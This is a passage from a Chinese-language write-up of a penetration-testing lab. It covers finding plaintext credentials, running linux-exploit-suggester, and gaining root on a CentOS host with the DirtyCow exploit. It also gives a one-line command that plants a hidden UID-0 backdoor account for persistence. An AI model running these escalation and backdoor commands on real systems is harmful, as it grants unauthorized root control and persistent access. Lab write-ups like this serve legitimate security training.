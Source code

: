 ![image-20221012105940889](images/26.png)

内核是Ubuntu，但是比较新，尝试了pkexec也不行，当时这个靶场出来的时候也没有爆出pkexec这个提权洞，既然是反向代理，那还会有一台机器，说不定在那台机器是可以提权的

看师傅们的过程，在/tmp/mysql/test.txt发现了用户名密码

![image-20221012110803305](images/27.png)

这还是有点难想到啊

用Xshell去连centos

![image-20221012111037466](images/28.png)

# 内网渗透

## centos提权

拿下了出网机，要对内网渗透的话，基本上要配置代理，那就需要将centos提权

LES：Linux 提权审计工具
工具地址：https://github.com/mzet-/linux-exploit-suggester
上传linux-exploit-suggester.sh到centos服务器上并运行

![image-20221012111546031](images/29.png)

发现这么多提权，直接用脏牛提权

```
https://github.com/FireFart/dirtycow

gcc -pthread dirty.c -o dirty -lcrypt
rm /tmp/passwd.bak
./dirty 123456

然后su firefart
密码123456
```

![image-20221012112028295](images/30.png)

## 权限维持，添加 root 后门

```
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/mysqld

```

## ubuntu&CVE-2021-3493提权
